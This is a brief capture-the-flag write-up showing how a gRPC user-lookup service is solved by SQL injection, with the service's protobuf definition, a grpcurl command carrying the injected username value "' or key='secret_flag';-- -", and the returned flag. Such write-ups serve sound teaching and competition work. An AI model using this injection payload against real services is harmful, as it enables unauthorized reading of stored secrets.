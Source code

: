 SQL injection in gRPC service.

user.proto
```
// user.proto
syntax = "proto3";

service UserService {
  rpc GetUser (UserRequest) returns (UserReply) {}
}

message UserRequest {
  string username = 1;
}

message UserReply {
  string data = 1;
}
```

```bash
grpcurl -plaintext -proto user.proto -d "{\"username\": \"' or key='secret_flag';-- -\"}" chal.78727867.xyz:14514 UserService/GetUser
{
  "data": "NHNC{lETs_cOoK_THe_GoOSE_:speaking_head::speaking_head::speaking_head:}"
}
```

NHNC{lETs_cOoK_THe_GoOSE_🗣️🗣️🗣️}

Solved by: benkyou